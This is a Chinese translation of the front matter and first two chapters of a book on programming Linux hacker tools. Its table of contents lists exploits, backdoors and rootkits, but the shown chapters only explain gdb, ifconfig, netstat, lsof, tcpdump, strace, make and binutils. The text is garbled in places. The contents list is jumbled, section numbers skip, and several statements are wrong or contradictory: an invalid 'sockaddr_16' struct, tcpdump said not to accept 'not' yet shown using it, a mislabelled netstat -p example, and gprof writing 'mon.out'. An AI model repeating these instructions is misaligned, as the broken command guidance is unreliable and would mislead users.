

# Linux 黑客工具编程揭秘：漏洞利用、后门、扫描器、嗅探器、破解器、Rootkit（Uncovered 系列）

书籍编辑：Julie Laing

### 第5章：Traceroute 63

- 11.2.3. 唤醒后门 ... 170
- 13.2. BSS 缓冲区溢出 ... 208
- 13.3.4. 写入 h 修饰符 ... 222
- 13.4. 堆溢出 ... 233
- 13.4.4. 构造利用 ... 238

## 第14章：远程漏洞 ... 243

- 14.3. 构造远程利用 ... 247
- 21.3. 隐藏目录与进程 ... 315
- 21.5. 隐藏网络 ... 319
- 参考文献 ... 321

# 前言

为了让你从本书中获得满意和收益，你必须具备某些知识。以下列出了你必须掌握的领域，按难度递增排序，以及相应的获取途径：

- 你必须能够像普通用户一样使用 Linux。也就是说，你必须学会使用终端并熟悉基础命令，如 `ls`、`ps`、`who`、`man`、`cat`、`su`、`rm` 等。你需要了解文件系统的访问权限。你需要能够创建和删除用户。你需要学会使用 Linux 编辑器。你需要配置网络和互联网连接。通常，你必须学会高效地使用 Linux。为此，我建议购买一本入门书籍并从头到尾阅读。

- 本书中考虑的大多数都是网络应用程序；你必须对基础网络原理有清晰的概念。你必须了解网络拓扑结构及其之间的区别、开放系统互连 (OSI) 模型层、TCP/IP 协议栈、主要网络协议的操作、以太网标准以及通信设备（如集线器、交换机和路由器）的工作原理。我可以推荐一本优秀的书籍作为这些信息的来源。

- 仅仅掌握 C 语言不足以理解本书的代码。你必须能够针对 Linux 进行 C 编程：你熟悉该操作系统在编程方面的所有细节，了解有哪些 Linux 库和函数以及如何使用它们，等等。在这方面，我可以推荐两本书。第一本是入门级的，第二本是用于深入研究的。

- 如前所述，本书中的大多数代码涉及网络应用程序；在 Linux 环境下。具体来说，你应该知道如何使用这些基础网络函数如 `socket()`、`bind()`、`connect()`、`listen()`、`inet_aton()`、`htons()`、`sendto()`、`recvfrom()`、`setsockopt()` 和 `select()`；以及 `sockaddr_in` 和 `sockaddr_16` 等结构以及许多其他标准网络编程元素。我假设即使你没有实际的网络经验，至少也读过一些关于该主题的好书籍，并对其有良好的理论掌握。否则，我强烈建议你先学习一本经典著作 [5]。

这些先决条件远不是你理解像这本内容如此广泛的书籍所需的全部知识。例如，某些章节的内容要求你了解汇编语言编程或为可加载内核模块编写程序。不要担心：在本书的阅读过程中，我会提供必要的基础信息和来源，你可以从这些地方获取更详细的信息。

# “揭秘编程黑客工具”系列

本书是“揭秘编程黑客工具”系列的第一本。下一本将是《Windows 编程黑客工具》（Programming Windows Hacker Tools），将考虑在 Windows 上实现相同的软件。不要错过！

# 联系方式

你可以通过向以下电子邮件地址之一写信与我联系：`sklyaroff@sklyaroff.ru`、`sklyaroff@mail.ru` 或 `sklyarov@real.xakep.ru`。

你也可以访问我的个人网站：`www.sklyaroff.ru` 或 `www.sklyaroff.com`。

## 第一部分：黑客软件开发者工具箱

# 第 1 章：主要工具

就像锁匠一样，程序员应该拥有专门的工具。锁匠可能只用一把刀和一把锤子完成所有工作，但一台好的机床、一套合适的切削头和其他一些专业工具将使他的工作速度更快、更高效，且质量更好。开发非标准的黑客软件也是如此：为了完成一项工作，专用工具通常是必不可少的。我之所以从这一章开始这本书并非偶然。在开始你的黑客冒险之前，你必须收集合适的工具并学习如何使用它们。本章旨在通过提供有关主要标准工具（即包含在任何完整的 Linux 发行版中的工具）的信息来帮助完成这项任务。这些工具足以解决各种主要的编程问题。这些信息将在第 2 章中扩展，第 2 章将回顾用于解决高度专业问题的额外实用工具。

然而，你将在这些章节中找不到任何如 `ps`、`who`、`man` 和 `gcc` 这样的基础工具的信息。如果你不知道如何使用这些工具，那么读这本书太早了。把它放回书架，先阅读引言中建议的文献。

我为本书仅挑选了最重要的工具，即我在为其开发程序时自己使用的工具。

我想要推荐的唯一非标准软件工具是 VMware 虚拟机。这是一个每个黑客都必须拥有的独特程序。你可以在开发者网站（`http://www.vmware.com`）购买适用于 Linux 或 Windows 的虚拟机。也有免费的演示版。起初我想为 VMware 单独开一章，但我改变了主意，因为运行这个程序本身就需要专门的一本书。VMware 非常容易使用，但要发挥它的全部功能，你必须具备网络管理员技能。由于我拥有这些技能，很容易在我的计算机上扩展了一个局域以太网，本书的大部分程序都在这里开发。

## 1.1. GNU 调试器

GNU 调试器 (GDB) 是适用于 Linux 和其他 UNIX 类系统的标准控制台调试器。虽然 GDB 有图形界面（例如数据显示调试器 DDD），但我不会考虑它们，因为它们不是标准的 Linux 工具，在 UNIX 世界也不流行。

可以使用 GDB 调试的三类对象，称为“目标”：可执行文件、内存转储（核心文件）和进程。核心文件包含内存进程的映像，通常是由于进程异常终止的结果。有多种方法可以将这些目标中的每一个加载到 GDB 中调试。首先，在启动 GDB 时，可以从命令行加载任何目标。以下是执行此操作的主要方法：

- 将可执行文件加载到 GDB：

```
# gdb program_name
# gdb -exec program_name
# gdb -e program_name
```

- 将转储文件加载到 GDB：

```
# gdb -core core_name
# gdb -c core_name
# gdb program_name core_name
```

在最后一行中，第一个参数必须是生成第二个参数指定的核心文件的程序名称。

- 将进程加载到 GDB：

```
# gdb -c process_pid
# gdb process_name process_pid
```

任何进程的进程标识 (PID) 都可以使用 `ps` 命令确定。任何类型的目标也可以加载到已经启动的 GDB 中。

- 加载执行文件：

```
(gdb) file program_name
(gdb) exec-file program_name
```

- 加载转储文件：

```
(gdb) core-file core_name
```

- 加载进程：

```
(gdb) attach process_pid
```

可以使用 `detach` 命令从 GDB 中卸载进程。脱离的进程会在系统中继续执行，另一个进程可以被附加。

当 GDB 启动时，它会输出大量的版权信息，可以通过带有 `-q` 选项调用 GDB 来抑制这些信息。

为了使调试过程更加方便和高效，你应该编译你的程序以包含调试信息。这可以通过 GCC（GNU C 和 C++ 编译器）使用 `-g` 选项进行编译来实现。调试信息将允许你在 GDB 中显示变量和函数名、行号和其他标识符，就像它们在程序源代码中出现一样。如果没有调试信息，GDB 将在汇编级别与程序工作。

在调试程序时，你必须设置断点。断点有三种类型：

- 普通断点。使用这种类型的断点时，当执行到某个地址或函数时，程序会停止。断点使用 `break` 命令或其短形式 `b` 设置。例如，以下命令在 `main()` 函数处设置断点：

```
(gdb) break main
```

断点也可以设置在任何地址；在这种情况下，地址前必须有一个星号 (`*`)。你可能需要在需要在程序中那些没有调试信息或源代码的部分设置某些地址的断点。例如，以下命令在 `0x801b7000` 地址处设置断点：

```
(gdb) b *0x801b7000
```

- 观察点。当某个变量被读取或更改时触发。有不同类型的观察点，每个观察点使用不同的观察命令。`watch` 命令（简写为 `wa`）设置一个观察点，当指定的值发生变化时程序将停止：

```
(gdb) watch variable
```

`rwatch` 命令（简写为 `rw`）设置一个观察点，当指定的值被读取时程序将停止：

```
(gdb) rwatch variable
```

`awatch` 命令（简写为 `aw`）设置一个观察点，当指定的值被读取或写入时程序将停止：

```
(gdb) awatch variable
```

- 捕获点。当某个事件发生时触发。捕获点有多种形式，会在特定事件发生时停止程序，例如接收到信号。使用 `catch` 命令设置捕获点，格式如下：

```
(gdb) catch event
```

所有主 GDB 命令都有长形式和短形式。程序将在指定的事件发生时停止。以下是可以设置捕获点的事件：

- `throw` — 发生 C++ 异常。
- `catch` — C++ 异常被拦截。
- `exec` — `exec()` 函数被调用。
- `fork` — `fork()` 函数被调用。
- `vfork` — `vfork()` 函数被调用。

可以通过执行 `help catch` 获取捕获点的信息。遗憾的是，许多事件在 GDB 中不受支持。所有设置的断点的信息可以通过 `info` 命令（简写 `i b`）获取。可以使用 `disable` 命令禁用断点：

```
(gdb) disable b_number
```

禁用的断点可以使用 `enable` 命令激活：

```
(gdb) enable b_number
```

可以通过 `info` 命令获取断点的编号以及其状态（启用或禁用）。可以使用 `delete` 命令删除断点：或者可以使用短版本命令：

```
(gdb) delete breakpoint point_number
(gdb) d b_number
```

不带参数执行 `d` 命令将删除所有断点。在完成所有调试程序的准备工作（包括设置断点）后，可以使用 `run` 命令（简写 `r`）启动程序。程序将执行到遇到断点。停止的程序可以使用 `continue` 命令（简写 `c`）恢复。你可以通过步进源代码行来跟踪程序执行，而不进入函数，`next N`（简写 `n N`）执行 N 行而不进入函数。如果未指定 N，`next`（简写 `n`）执行单行代码。`step N`（简写 `s N`）执行 N 行并进入函数。`stepi N` (`si N`) 和 `nexti N` (`ni N`) 也能跟踪程序执行，但它们不通过源代码行，而是通过机器指令。`finish` (`f`) 命令执行程序直到当前函数退出。

`print` (`p`) 命令用于输出显式指定的表达式的值（例如 `p 2+2`）、变量值（例如 `p my_var`）、寄存器内容（例如 `p $eax`）或内存单元内容（例如 `p *0x8018305`）。`x` 用于查看内存单元的内容。命令格式如下：

```
x/Nfu address
```

考虑此命令的元素：

- `address` — 从此处开始显示内存的地址（地址前不加星号）。
- `N` — 显示的内存单元 (u) 数量；默认值为 1。
- `f` — 输出格式。可以是以下之一：`s`，以空字符结尾的字符串；`i`，机器指令；或 `x`，十六进制格式（默认格式）。
- `u` — 内存单元。可以是以下之一：`b`，1字节；`h`，2 字节；`w`，4 字节（即一个字；默认内存单元）；`g`，8 字节（一个双字）。

例如，以下命令将输出从地址 `0x40057936` 开始的 20 个十六进制字：

```
(gdb) x/20x 0x40057936
```

当使用默认值时，不需要在命令后输入 shell。
`set` 命令用于修改寄存器或内存单元格的内容。例如，以下命令向 `ebx` 寄存器写入 1：

```
(gdb) set ebx = 1
```

`info registers` (`i r`) 命令显示所有寄存器的内容。若要只查看某些特定寄存器的内容，必须在命令后紧跟指定。例如，以下命令将显示 `ebp` 和 `eip` 寄存器：

```
(gdb) i r ebp eip
```

`info share` 命令显示当前加载的共享库信息。`info frame`、`info args` 和 `info locals` 命令分别显示当前栈帧的内容、函数的参数和局部变量。`backtrace` (`bt`) 命令显示每个子程序的栈帧。通过输入 `quit` (`q`) 命令可以退出调试器，该命令可以通过执行 `help` (`h`) 命令后跟要查询信息的命令名称来获取。

## 1.2. Ifconfig

`ifconfig` 工具用于通过更改互联网协议协议 (IP) 地址、网络子网掩码和媒体访问控制 (MAC) 地址等参数来配置网络接口。对于程序员来说，该工具的主要用途在于它在带有 `-a` 选项执行时所提供的信息。以下是输出示例：

```
# ifconfig -a
eth0 link:Ethernet Haddr 00:0c:29:de:7a:bc
inet addr:192.168.1.100 Bcast:192.168.1.255 Mask:255.255.255.0
UP BROAD RUNNING MULTICAST MTU:1500 Metric:1
RX packets:1447064 errors:0 dropped overflows:0 frame:0
TX packets:1447064 errors:0 dropped overflows:0 carrier:0
collisions:0 txqueuelen:100
Interrupt:1 Base address:0x10a4
lo link:Local Loopback
inet addr:127.0.0.1 Mask:255.255.0.0
UP LOOPBACK RUNNING MTU:1634 Metric:1
RX packets:1447064 errors:0 dropped overflows:0 frame:0
collisions:0 txqueuelen:0
```

首先输出 `eth0` 以太网接口的信息，随后是环回接口的信息。在不带任何参数的情况下执行 `ifconfig` 将显示使用 `down` 选项禁用的接口（请见后文相应的描述）。`ifconfig` 命令输出的最重要信息之一包括：接口的 IP 地址 (`inet addr`)、广播地址 (`Bcast`)、掩码地址 (`Mask`)、MAC 地址 (`HWaddr`) 以及最大传输单元 (`MTU`)。同样感兴趣的还有成功接收、发送、错误、丢弃和重复的数据包数量（分别为 `RX packets`, `TX packets`, `errors`, `dropped`, `overruns`）。`collisions` 标签显示网络中的冲突次数，`txqueuelen` 标签显示传输队列长度。`interrupt` 标签显示设备使用的硬件中断。若要输出特定接口的数据，执行指定接口名称的命令：

```
# ifconfig eth0
```

接口的最大传输单元 (MTU) 使用 `mtu` 选项设置：

```
# ifconfig eth0 mtu 1000
```

`ifconfig` 不允许你指定大于允许值（1500 字节）的 MTU。`arp` 选项（带负号）禁用指定接口的地址解析协议 (ARP)，而 `arp` 选项（不带负号）启用它：

```
# ifconfig eth0 -arp
# ifconfig eth0
eth0 encap:Ethernet HWaddr 00:0C:29:DE:7A:BC
inet addr:192.168.10.130 Bcast:192.168.10.255 Mask:255.255.255.0
UP BROADCAST RUNNING MULTICAST MTU:1500
```

`promisc` 选项（不带负号）启用接口的混杂模式，这将接受所有发送到网络的数据包。这种模式被嗅探器使用（见第 9 章）。`-promisc` 选项（带负号）禁用混杂模式：

```
# ifconfig eth0 promisc
# ifconfig eth0
eth0 encap:Ethernet HWaddr 00:0C:29:DE:7A:BC
inet addr:192.168.10.130 Bcast:192.168.10.255 Mask:255.255.255.0
UP BROADCAST RUNNING PROMISC MTU:1500
```

使用 `inet` 选项向接口分配 IP 地址；使用 `netmask` 选项分配掩码：

```
# ifconfig eth0 200.168.10.155 netmask 255.255.255.192
# ifconfig eth0
eth0 encap:Ethernet HWaddr 00:0C:29:DE:7A:BC
inet addr:200.168.10.155 Bcast:200.168.10.255 Mask:255.255.255.192
UP BROADCAST RUNNING MULTICAST MTU:1500
```

可以使用 `down` 选项禁用接口并使用 `up` 选项启用接口：

```
# ifconfig eth0 down
# ifconfig eth0 up
```

如果设备驱动支持，可以使用 `hw` 类选项更改接口的硬件地址 (MAC 地址)。必须在 `hw` 关键字之后指定设备类名称和 MAC 地址字符串。目前支持 `ether` (Ethernet)、`ax25` (PR25)、`ARCent` 和 `netrom` (NET/ROM) 设备类。在更改硬件地址之前，必须禁用接口（使用 `down` 选项）。以下是更改 `eth0` 接口 MAC 地址的示例：

```
# ifconfig eth0 down
# ifconfig eth0 hw ether 13:13:13:13:13:13
# ifconfig eth0 up
# ifconfig eth0
```


# 1.3. Netstat

`netstat` 工具输出关于网络操作的不同信息。如果不带任何参数调用，它将输出关于已建立连接的信息以及用于进程交互的内部队列和文件的补充信息。默认情况下，输出中不包含监听端口。使用 `-a` 参数可以显示所有监听和非监听端口：

当禁用域名解析 (DNS) 支持时，`netstat` 会尝试将数字地址解析为主机名并在屏幕上输出，产生巨大的延迟。添加 `-n` 标志可以防止 `netstat` 尝试解析主机名，从而加快输出：

```bash
# netstat -an
```

在这种情况下，所有地址都以数字格式显示。

如前一个示例所示，`netstat` 工具的输出信息列出了所有已建立的连接和列出的端口。第一部分名为“active Internet connections”（活跃的 Internet 连接），`Proto` 列显示了连接或服务使用的协议——传输控制协议 (TCP) 或用户数据协议 (UDP)。`Recv-Q` 和 `Send-Q` 列分别显示套接字读写缓冲区中的字节数。`Local Address`（本地地址）和 `Foreign Address`（远程地址）显示本地和远程地址。地址通常用星号表示；如果指定了 `-n` 参数，则本地地址将显示为 `0.0.0.0`。地址以 `computer_name(ip address):service` 格式显示，其中端口号到服务名的映射位于 `/etc/services` 文件中！`State` 列显示连接状态。最常见的状态有 `ESTABLISHED`（已建立）、`LISTEN`（端口正在监听连接请求；使用 `-a` 选项时显示）和 `TIME_WAIT`（连接正在关闭）。

连接状态仅对 TCP 显示，而 UDP 不检查状态。因此，示例输出显示大多数本地节点都在监听，且与远程地址建立了一个活跃的安全（SSH）连接：`192.168.10.128:39806`。

输出的第二部分“active UNIX domain sockets”（活跃的 UNIX 域套接字）显示了进程交互使用的内部队列和文件。

使用 `-t` 参数将仅输出 TCP 端口：

```bash
# netstat -tan
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State
tcp 0 0 0.0.0.0:1024 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:21 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:23 0.0.0.0:* LISTEN
tcp 0 0 127.0.0.1:125 0.0.0.0:* LISTEN
tcp 0 0 192.168.10.120:192 192.168.10.128:58291 ESTABLISHED
```

同样，`-u` 参数用于仅输出 UDP 端口：

```bash
# netstat -uan
```

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State
udp 0 0 0.0.0.0:1024 0.0.0.0:*
udp 0 0 0.0.0.0:686 0.0.0.0:*
udp 0 0 0.0.0.0:111 0.0.0.0:*
```

`-i` 参数用于输出关于网络接口的信息：

```bash
# netstat -i
Kernel Interface table
Iface MTU RX-OK RX-ERR RX-DF RX-OVR TX-OK TX-ERR TX-DR TX-OVR Flg
eth0 1500 0 1428232 0 0 3418346 0 0 BMRU
lo 16436 0 1446930 0 0 1446930 0 0 LRU
```

在许多方面，这些信息与执行 `ifconfig -a` 命令产生的信息相同。带有 RX（接收）的列显示成功、错误和重复数据包的数量。带有 TX（发送）的列显示成功、错误和重复发送数据包的数量。

`netstat` 工具可对网络接口进行实时监控。使用 `-c` 参数运行可以每隔 1 秒显示一次统计数据：

```bash
# netstat -i -c
```

此模式可追踪网络错误的来源。

使用 `-s` 参数运行 `netstat` 会显示不同协议的操作统计信息：

```bash
# netstat -s
```

```
Ip:
2869242 total packets received
2 with invalid headers
0 forwarded
37 incoming packets discarded
1489607 incoming packets delivered
4865030 requests sent out
38 fragments dropped after timeout
17870 reassemblies required
8357 packets reassembled ok
38 packet reassemblies failed
193194 fragments created

Icmp:
48041 ICMP messages received
515 ICMP message failed.
ICMP input histogram:
destination unreachable: 9559
timeout in transit: 74
echo request: 177230
echo replies: 291178
179798 ICMP messages sent
0 ICMP messages failed
```

`-r` 参数输出内核路由表：

```bash
# netstat -r
```

```
Kernel IP routing table Destination Gateway Genmask Flags Window Metric Iface
192.168.10.0 * 255.255.255.0 U 0 0 eth0
127.0.0.0 * 255.255.255.0 U 0 0 lo
```

`-p` 参数输出与特定端口关联的信息：

```bash
# netstat -ant
```

```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address Foreign Address State
tcp 0 0 0.0.0.0:1024 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:111 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:21 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN
tcp 0 0 0.0.0.0:23 0.0.0.0:* LISTEN
tcp 0 0 127.0.0.1:125 0.0.0.0:* LISTEN
tcp 0 0 192.168.10.120:192 192.168.10.128:58291 ESTABLISHED
```

与提供的输出相比，`-a` 参数和 `-p` 参数在输出中增加了一列。UNIX 系统中的 `netstat` 工具没有 `-p` 参数。在这种情况下，该参数的功能由 `lsof` 工具提供。

**lsof** 存在于大多数现代 Linux 发行版。如果你的系统中没有它，可以从此网站下载：https://vic.cc.purdue.edu/tools/unix/lsof/

**lsof** 是“list open files”（列出打开的文件）的缩写，在不带参数运行时，它列出所有打开的文件、文件夹、库、UNIX 套接字以及打开它们的进程。但在带有 `-i` 参数运行时，它只列出端口和打开它们的进程。其输出示例：

```bash
# lsof -i
COMMAND PID USER TYPE SIZE NODE NAME
portmap 495 root 3u IPv4 1211 UDP *:sunprpc
portmap 495 root 4u IPv4 1212 TCP *:sunprpc (LISTEN)
rpc.statd 510 root 4u IPv4 1232 UDP *:686
rpc.statd 510 root 5u IPv4 1241 UDP *:1024
```

```
Active UNIX sockets (servers and established)
Proto Ref Flags Type State Local Address PID/Program Name
unix 2 ACC LISTENING 1391 795/dev/cm
unix 2 ACC LISTENING 939 415/var/run/pump.sock
unix 13 DGRAM 1178 476/dev/log
unix 2 ACC LISTENING 1661 807/root /tmp/.fs/7100
unix 2 DGRAM 60984 root root
unix 2 DGRAM 252658 742/xinetd
unix 2 DGRAM 12241 8279/login
unix 2 DGRAM 1673 853/xftpd
unix 2 DGRAM 1620 807/root
unix 2 DGRAM 1584 782/sendmail: accept
unix 2 DGRAM 1439 695/autocomount
unix 2 DGRAM 1413 646/apmd
unix 2 DGRAM 1223 510/rpc.statd
unix 2 DGRAM 1187 481/llog
unix 2 CONNECTED 730 1/unit
```

# 1.5. Tcpdump

`tcpdump` 工具是由伯克利国家实验室开发的网络数据包分析器。该工具的官方页面为 http://www.tcpdump.org。

## 1.5.1. 命令行选项

如果不带任何参数运行 `tcpdump`，它将拦截所有网络包并显示它们的头部信息。`-i` 参数用于指定要获取的网络接口：

```bash
# tcpdump -i eth2
```

要仅显示特定主机接收或发送的数据包，必须在 `host` 关键字之后指定主机名或 IP 地址：

```bash
# tcpdump host nameserv1
```

例如，在 `nameserv1` 和 `nameserv2` 主机之间交换的数据包可以使用以下过滤器显示：

```bash
# tcpdump host nameserv1 and host nameserv2
```

它们也可以使用其简短版本显示：

```bash
# tcpdump host nameserv1 and host nameserv2
```

通过运行工具可以追踪来自特定节点的出数据包：

```bash
# tcpdump src host nameserv1
```

入数据包只能使用 `dst host` 关键字进行追踪：

```bash
# tcpdump dst host namesrv
```

`src` 和 `dst` 关键字分别用于追踪源端口和目的端口：

```bash
# tcpdump dst port 513
```

若要仅追踪三种协议——TCP、UDP 或网络控制消息协议 (ICMP)——中的某一种，只需在命令行中指定其名称即可。使用布尔运算符 `and` 和 `or` 可以构建任何复杂程度的过滤器，但不能使用 `not`。以下是一个过滤器示例，它仅追踪从来自外部网络入站的 ICMP 数据包：

```bash
# tcpdump 'icmp and not src net localnet'
```

可以使用以下格式 `proto[expr:size]` 来测试协议头中的特定字节。在这里，`proto` 指定了以下协议之一：`ether`、`FDDI`、`TR`、`ARP`、`RARP`、`TCP`、`UDP`、`ICMP` 或 `IP`。`expr` 指定了距离数据包起始位置的字节偏移量，`size` 是一个辅助字段，用于指定要检查的字节数（如果省略，则只测试一个字节）。此过滤器将仅选择 SYN 标志位被设置的 TCP 段：

```bash
# tcpdump 'tcp[13] == 2'
```

考虑到此过滤器，TCP 头的第 13 字节包含 8 个标志位，其中 SYN 是第二个位。由于该位必须设置为 1，因此二进制形式的标志位内容将为 `00000010`（十进制为 2）。`-c` 参数可用于指定接收的数据包数量。例如，执行以下命令将只接收 10 个数据包：

```bash
# tcpdump -c 10
```

`-a` 参数指示工具将 IP 地址转换为名称（这会牺牲执行速度）：

```bash
# tcpdump -a
```

`-v` (详细)、`-vv` (非常详细) 和 `-vvv` (极其详细) 选项会产生扩展输出。

`tcpdump` 列表的每一行都以当前时间的 `hh:mm:ss.frac` 时间戳开头，其中 `frac` 是秒的分数。时间戳后面可以是用于接收或发送数据包的接口（例如 `eth0`、`eth1` 或 `lo`）。传输方向使用 `<` 或 `>` 字符指示。例如，`eth0<` 表示 `eth0` 接口正在接收数据包。相应的，`eth0>` 表示 `eth0` 接口正在向网络发送数据包。以下信息取决于数据包类型：ARP/RARP、TCP、UDP、NBP、ATP 等。以下是某些主要数据包类型的格式。

## 1.5.2.1. TCP 数据包

`Src.port > dst.port: data-seqno ack window urgent options`

在这里，`src.port` 和 `dst.port` 是源和目的 IP 地址及端口。

`Flags` 字段指定 TCP 头标志。它可以是 `S` (SYN)、`F` (FIN)、`P` (PUSH) 和 `R` (RST) 字符的组合。该字段中的点 `.` 表示没有设置的标志。

`data-seqno` 字段以 `first:last (nbytes)` 格式描述数据。

`first` 和 `last` 分别是数据包第一个字节和最后一个字节的序列号，如果 `nbytes` 为 0，则 `first` 和 `last` 参数相同。

`Ack` 参数指定序列中的下一个数字 (ISN + 1)。

`Window` 参数指定窗口大小。

`Urgent` 参数意味着数据包包含紧急数据 (URG 标志)。

`Options` 参数指定额外信息，例如 `<mss 1024>`（段的最大长度）。


# 第 2 章：更多工具

## 2.1 网络数据包格式

`Src.port > dst.port: udp nbytes`

`Udp` 标记表示 UDP 数据包。

`Nbytes` 字段标识 UDP 数据包中的字节数。

`Src > dst: icmp: type`

`Icmp` 标记表示 ICMP 数据包。

`Type` 字段识别 ICMP 消息的类型，例如请求请求 (`echo request`) 或应回显 (`echo reply`)。


## 2.2 工具概述

本章描述的工具程序员并不经常使用，但在某些情况下它们是不可或缺的。因此，你必须意识到它们的存在，并至少对其操作原理有基本的常识。本章描述的所有工具原则上都包含在任何标准 Linux 发行版中。许多工具也包含在 GNU binutils 包中，这是任何 Linux 系统的基础部分。binutils 包开发者的主页可以在此地址找到：`http://sources.redhat.com/binutils/`。本章仅对每个工具提供一般概述。详细信息请参阅 man 手册。

### 2.2.1 time

`time` 工具运行指定的程序。当程序结束时，该工具打印程序运行的时间统计信息，例如：

```
# time your_prog
real 0.008s
user 0.001s
sys 0.010s
```

在这里，`real`、`user` 和 `sys` 是程序开始和结束之间经过的时间。以下使用 `time` 工具的示例：

```bash
# time /bin/sh -c "your_prog"
```

### 2.2.2 gprof

**gprof** 工具是一个性能分析器。要使用它，必须在编译程序时加上 `-pg` 标志。运行程序后，它会生成一个 `mon.out` 文件。然后你调用 `gprof` 来生成报告。以下是命令序列：

```bash
# gcc -pg your_prog.c -o your_prog
# ./your_prog
# gprof your_prog
```

输出按列组织：第一列列函数函数，第二列列花费的时间，第三列给出系统时间。概要（flat profile）显示每个函数的信息。调用图（call graph）显示函数调用的信息。

### 2.2.3 ctags

有时程序由许多文件组成。使用 `ctags` 工具可以管理源文件中的定义。以下是执行 `ctags` 的示例：

```bash
# ctags *
```

### 2.2.4 strace

`strace` 工具跟踪指定程序的系统调用和信号。工具运行如下：

```bash
# strace your_prog
```

输出的每一行提供一个系统调用的信息：系统调用名称及其参数，然后是等号 (`=`) 后的返回值。以下是一个行的示例：

```bash
execve("/your_prog", ["./your_prog"], [/*27 vars*/]) = 0
```

在这里，`/*27 vars*/` 表示 27 个环境变量，`strace` 为了不干扰输出而没有显示。使用 `-f` 选项运行 `strace` 会跟踪跟踪进程创建的子进程。

### 2.5 Ltrace

`ltrace` 工具类似于 `strace`，但它跟踪对动态库的调用。

### 2.6 Mtrace

`mtrace` 工具用于跟踪程序对动态内存的使用。它跟踪分配和释放操作；即跟踪内存泄漏。内存泄漏会逐渐减少资源直到耗尽。为了确定程序中所有可能的内存泄漏，你将执行以下步骤：首先，在程序中包含 `mcheck.h` 头文件并在程序开始放置 `mtrace()` 函数调用。然后，通过导出环境变量来指定存储检查结果的文件，如下例：

```bash
# export MALLOC_TRACE=mem.log
```

现在运行程序会将所有的分配和释放操作记录在 `mem.log` 文件中。最后，如下调用 `mtrace` 工具：

```bash
# mtrace your_prog mem.log
```

产生的信息中分配但未释放的记录。为了描述的操作成功，被调查的程序必须正常终止。

### 2.7 Make/gmake

在多文件项目中更改任何文件不可避免地需要重新编译其他文件。`make` 工具（在某些发行版中称为 `gmake`）旨在减轻这一工作。

此任务。要使用 `make` 工具，你必须准备一个名为 `makefile` 的文本文件，在其中列出程序中文件之间的关系以及构建规则。这些规则按以下格式记录：

```
<target>: <prerequisite>
<command>
<command>
...
```

当不带参数运行 `make` 时，默认执行 `makefile` 中的第一个目标。它通常被命名为 `all`，等同于 `make all` 命令。以下是一个 `makefile` 的示例：

```
all: your_prog

your_prog: your_prog.o foo.o boo.o
    gcc your_prog.o foo.o boo.o -o your_prog

your_prog.o: your_prog.c your_prog.h

foo.o: foo.c foo.h

boo.o: boo.c boo.h

clean:
    rm -f *.o prog
```

`clean` 命令删除所有现有的对象文件程序，以便 `make` 重新创建它们。要构建一个项目，你只需要在命令行中输入以下内容：

```
# make
```

### 2.8 Automake/autoconf

有一种准备 `makefiles` 的简单方法，即使用 `automake` 和 `autoconf` 工具。首先，准备 `makefile.am` 文件——例如：

```
bin_PROGRAMS = your_prog
your_prog_SOURCES = your_prog.c foo.c boo.c
AUTOMAKE_OPTIONS = foreign
```

最后一个选项的作用是标准文档文件（news、readme、authors 和 changelog）不包含在项目中，尽管标准规定所有 GNU 软件包都必须包含它们。

接下来，需要创建 `configure.in` 文件。这可以使用 `autoscan` 工具完成。该工具扫描源文件树（其根目录在命令行中指定或与当前文件夹相同），并创建 `configure.scan` 文件。对该文件进行检查，在需要时进行修正，并重命名为 `configure.in`。最后一步按照此处所示顺序运行以下工具：

```
# aclocal
# autoconf
# automake -a -c
```

结果将在当前目录下创建 `configure` 和 `makefile.in` 脚本以及文档文件。现在，要构建一个项目，你只需要在命令行中输入以下命令：

```
# ./configure
# make
```

### 2.9 Ldd

`ldd` 工具显示每个程序所需的所有共享库。以下是启动它的示例：

```
# ldd ./your_prog
```

### 2.10 objdump

`objdump` 工具显示一个或多个对象文件的信息；要显示的特定信息由选项指定。例如，`-D` 选项打印指定程序的反汇编；`-x` 选项显示所有节的内容；包括文件和节头；`-R` 选项列出动态重定位的数据。以下是启动该工具的示例：

```
# objdump -D ./your_prog
```

### 2.11 Hexxdump and od

`hexdump` 工具以十进制 (`-d`)、十六进制 (`-x`)、八进制 (`-b`) 以及美国标准信息交换码（或 ASCII，(`-c`) 模式显示指定文件的内容。以下是运行该工具的示例：

```
# hexdump -c ./your_prog
```

`od` 工具与 `hexdump` 工具类似：

```
# od -c ./your_prog
```

### 2.12 Strings

`strings` 工具显示文件中长于四个字符（默认设置）的可打印 ASCII 字符字符串。以下是运行该工具的示例：

```
# strings ./your_prog
```

### 2.13 Readelf

`readelf` 工具显示关于可执行和链接格式（ELF）文件的信息，例如文件头、节头和其他结构。（有关 ELF 文件的详细讨论请参见第 15 章。）

### 2.14 Size

`size` 工具显示每个指定文件中节的大小。默认情况下，仅列出代码 (`.text`)、数据 (`.data`) 和未初始化数据 (`.bss`) 节的大小以及这些节的总大小，并采用十进制和十六进制格式。要列出文件中所有节的大小，使用 `-A` 标志。以下是运行该工具的示例：

```
# size ./your_prog
```

### 2.15 Nm

`nm` 工具向标准输出设备输出参数列表中指定的每个文件的符号表。符号表用于调试应用程序。该工具显示每个符号的名称以及关于其类型的信息：数据符号（变量）、程序符号（标签或函数名）等。以下是运行该工具的示例：

```
# nm ./your_prog
```

### 2.16 Strip

当程序经过调试后，可以从其删除符号表。这是通过 `strip` 工具完成的：

```
# strip ./your_prog
```

### 2.17 File

